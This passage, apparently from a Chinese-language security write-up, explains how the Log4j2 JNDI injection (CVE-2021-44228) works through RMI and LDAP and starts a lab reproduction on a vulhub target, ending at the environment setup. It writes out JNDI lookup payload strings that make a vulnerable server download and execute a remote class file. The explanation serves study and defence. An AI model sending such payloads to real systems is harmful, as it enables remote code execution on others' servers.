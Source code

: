 ![image-20230908103511778](assets/1697159015_65289767299599d6910e5.png)

a.攻击者发送一个HTTP请求，其用户名为${jndi://rmi:服务器地址/Exploit}

b.被攻击服务器发现要输出的信息中有 ${}，则其中的内容要单独处理，进一步解析是JNDI扩展内容且使用的是RMI，而后根据RMI服务器地址去请求Exploit。

c.RMI服务器返回Reference对象（用于告诉请求端所请求对象所在的类），而该Reference指定了远端 文件下载服务器上含有恶意代码的class文件。

d.被攻击服务器通过Reference对象去请求文件下载服务器上的class文件。

e.被攻击服务器下载恶意class文件并执行其中的恶意代码

LDAP  
当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中

a.假如日志中含有该语句${jndi:ldap:192.168.96.1:1099/exp}

b.被攻击服务器发现要输出的信息中有 ${}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.96.1:1099/exp

c.解析到ldap，就会去192.168.61.129:1099的ldap服务找名为exp的资源，如果找不到就会去http服务中找，在http中找到exp之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现exp是一个.class文件，就会去执行里面的代码，从而实现注入攻击者就可以通过shell实现任意的命令执行，造成严重危害

### 0x04漏洞复现

##### 漏洞环境

靶机：kali 192.168.100.134 vulhub/log4j/CVE-2021-44228
